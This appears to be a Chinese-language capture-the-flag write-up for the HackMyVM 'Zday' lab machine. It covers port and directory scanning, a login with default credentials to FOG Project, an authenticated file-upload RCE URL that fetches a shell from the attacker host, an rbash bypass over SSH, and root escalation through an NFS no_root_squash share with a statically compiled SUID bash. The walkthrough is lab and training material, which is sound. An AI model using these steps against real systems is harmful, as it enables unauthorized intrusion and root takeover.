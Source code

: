 ```yaml
---
{"created":"2024-12-19T16:55:10.586+08:00","tags":["HMV","rbash绕过","no_root_squash","静态编译","fogproject"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"sml","aliases":null,"系统":"Linux","permalink":"/24-渗透/HMV/41.Zday/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/41.Zday#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/41.Zday#2. 信息收集\|2. 信息收集]]
	- [[24-渗透/HMV/41.Zday#2.1. 端口扫描\|2.1. 端口扫描]]
	- [[24-渗透/HMV/41.Zday#2.2. 目录扫描\|2.2. 目录扫描]]
- [[24-渗透/HMV/41.Zday#3. fog project Rce\|3. fog project Rce]]
	- [[24-渗透/HMV/41.Zday#3.1. ssh绕过限制\|3.1. ssh绕过限制]]
- [[24-渗透/HMV/41.Zday#4. NFS no_root_squash\|4. NFS no_root_squash]]
- [[24-渗透/HMV/41.Zday#5. bash运行不了怎么办\|5. bash运行不了怎么办]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=Zday
**作者** sml
**难度** ⭐️⭐️⭐️⭐️⭐️
## 2. 信息收集
### 2.1. 端口扫描
```bash

┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# nmap 192.168.56.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 19:53 EST
Nmap scan report for 192.168.56.7
Host is up (0.00029s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
2049/tcp open  nfs
3306/tcp open  mysql
MAC Address: 08:00:27:36:9F:B5 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds

```

首页是 `appache`

### 2.2. 目录扫描
```bash
┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# dirsearch -u http://192.168.56.7
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/Desktop/hmv/Zday/reports/http_192.168.56.7/_24-12-19_19-55-54.txt

Target: http://192.168.56.7/


[19:56:05] 302 -    0B  - /index.php  ->  /fog/index.php
[19:56:05] 302 -    0B  - /index.php/login/  ->  /fog/index.php
[19:56:10] 403 -  277B  - /server-status
[19:56:10] 403 -  277B  - /server-status/

```

## 3. fog project Rce
发现一个fog project的登录框
![Pasted image 20241219170042](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241219170042.png)
利用默认账号密码 `fog : password` 登录上去

看一下版本
![Pasted image 20241219170255](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241219170255.png)

搜索一下相关的漏洞
```bash
┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# searchsploit fog
--------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                           |  Path
--------------------------------------------------------------------------------------------------------- ---------------------------------
Fog Creek Software FogBugz 4.0 29 - 'default.asp' Cross-Site Scripting                                   | asp/webapps/27071.txt
FOG Forum 0.8.1 - Multiple Local File Inclusions                                                         | php/webapps/5784.txt
FOGProject 1.5.9 - File Upload RCE (Authenticated)                                                       | php/webapps/49811.txt
--------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

成功找到一个满足版本的 文件上传rce

尝试利用一下


![Pasted image 20241219172007](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241219172007.png)
参考文章完成利用 https://muzec0318.github.io/posts/articles/fog.html
但是我卡在了这一步
```bash
http://192.168.56.7/fog/management/index.php?node=about&sub=kernel&file=aHR0cDovLzE5Mi4xNjguNTYuNi9teXNoZWxsCg==
&arch=arm64
```
因为它请求不了那个ftp

### 3.1. ssh绕过限制
在网站后台可以获取到一个账户名与密码
![Pasted image 20241219174002](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241219174002.png)

利用账户密码SSH上去会发现系统会立马中断我的bash
```bash

┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# ssh fogproject@192.168.56.7
fogproject@192.168.56.7's password:
Linux zday 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec 19 04:08:15 2024 from 192.168.56.6
You seem to be using the 'fogproject' system account to logon and work
on your FOG server system.

It's NOT recommended to use this account! Please create a new
account for administrative tasks.

If you re-run the installer it would reset the 'fog' account
password and therefore lock you out of the system!

Take care,
your FOGproject team
Connection to 192.168.56.7 closed.

```

这里我们利用 `ssh fogproject@192.168.56.7 -t sh` 进行绕过
也是一个属于 [[24-渗透/渗透姿势库/rbash绕过\|rbash绕过]]的方式

```bash

┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# ssh fogproject@192.168.56.7 -t sh
fogproject@192.168.56.7's password:
$ whoami
fogproject
$ id
uid=1001(fogproject) gid=1001(fogproject) groups=1001(fogproject)
$
```

## 4. NFS no_root_squash
使用脚本检测出来NFS共享里面启用了 `no_root_squash`
```bash
╔══════════╣ Analyzing NFS Exports Files (limit 70)
Connected NFS Mounts:
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
-rw-r--r-- 1 root root 174 Mar 10  2021 /etc/exports
/images *(ro,sync,no_wdelay,no_subtree_check,insecure_locks,no_root_squash,insecure,fsid=0)
/images/dev *(rw,async,no_wdelay,no_subtree_check,no_root_squash,insecure,fsid=1)

其中 /images/dev 目录我们具有读写权限
```
参考利用 https://book.hacktricks.xyz/zh/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
![Pasted image 20241219175540](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241219175540.png)

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
## 5. bash运行不了怎么办
安装hacktrick 上面利用可能会出现bash在靶机上运行不了
报错
```bash
$ ./bash -p
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./bash)
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.36' not found (required by ./bash)
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.38' not found (required by ./bash)
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./bash)

```

这是由于版本不对
我们重新编译一个传过去即可

到 https://ftp.gnu.org/gnu/bash/ 下载一个时间差不多的版本。这里靶机是21年的我就下一个21年的bash
![Pasted image 20241219182432](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241219182432.png)

```bash
攻击机
tar -zxvf bash-5.1.8.tar.gz
./configure --enable-static-link --without-bash-malloc
make
cp bash /tmp/pe
chmod +s /tmp/pe/bash

受害机
./bash -p
```

```bash
bash-5.1# cat /root/root.txt
ihavebeenherealways

bash-5.1# cat /home/estas/user.txt
whereihavebeen

```